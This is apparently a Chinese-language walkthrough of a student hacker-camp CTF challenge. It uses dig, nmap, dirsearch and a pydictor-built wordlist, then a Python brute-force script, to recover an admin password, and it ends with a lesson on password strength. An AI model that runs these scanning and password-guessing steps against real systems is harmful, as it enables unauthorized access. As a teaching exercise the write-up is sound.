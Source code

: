 # 駭客體驗營

## 解題流程
> https://digme.ntut.club
### First step
* 首先訪問網頁會看到 Can you dig me?
* 這時候我們稍微 dig 一下
* 最有可能放不同資訊的地方是 txt
    * `dig digme.ntut.club txt`
* 之後可以拿到一個 blog 的網址
    > https://blog.ntut.club

### Second step
* 再來訪問網頁，可以看到是一個部落格
    * 裡面的內容是弱密碼可能的選項
* 最下面有 server 的 ip
* 這時候，我們用 nmap 稍微掃描一下，規則上說 1-3000 就好
    * `nmap -p 1-3000 34.122.227.62`
* 之後可以看到一個特別的 port 2087

### Third step
* 這時候我們訪問 2087 port 
    > https://blog.ntut.club:2087
* 我們可以看到只有一個 pizza 的頁面以及 nothing here 的 title
* 如果我們要拿到網頁中沒有給出的資料，我們需要用 dirsearch 做目錄的掃描
    * 規則上說掃描到根目錄就好
    * `python3 dirsearch.py -u https://blog.ntut.club:2087/ -e php -b`
* 之後可以看到一個特別的目錄 `/admin` 或是 `/admin.php`

### Forth step
* 我們訪問一下 https://blog.ntut.club:2087/admin
    * 可以看到一個輸入密碼的頁面
* 要用 https://blog.ntut.club/ 中的內容來猜密碼
* 用 pydictor 來輔助我們
    * `python pydictor.py --sedb`
    * `set ename bob`
    * `set email thisisbob@gmail.com`
    * `set usedchar pizza`
    * `set phone 0912345678`
    * `run`
* 之後用 python 過濾一下生成的密碼，規則上說密碼是英文小寫
    ```python3=
    import requests
    from colorama import init, Fore, Back

    init(autoreset=True)
    url = 'https://blog.ntut.club:2087/admin'

    def alpha(password):
        for i in password:
            if (i >= 'a' and i <= 'z'):
                continue
            else:
                return False

        return True

    with open('sedb_201900.txt', 'r') as f:
        for password in f.readlines():
            password = password.replace('\n', '')

            if (alpha(password)):
                if (requests.post(url, data={'password':password}).status_code == 200):
                    print(Fore.GREEN + password)
                    break
                else:
                    print(Fore.RED + password)
            else:
                continue
    ```
* 得知密碼是 `thisisbobpizza`

## 結論
### 密碼長度與強度的重要性
* 如果沒有在規則上說過密碼都是英文小寫，再加上網頁每收到一組密碼都會停個三秒，破解的時間會無線拉長
* 希望各位在這次的體驗營之後能體驗到駭客之餘，對於自己的密碼能更注意歐
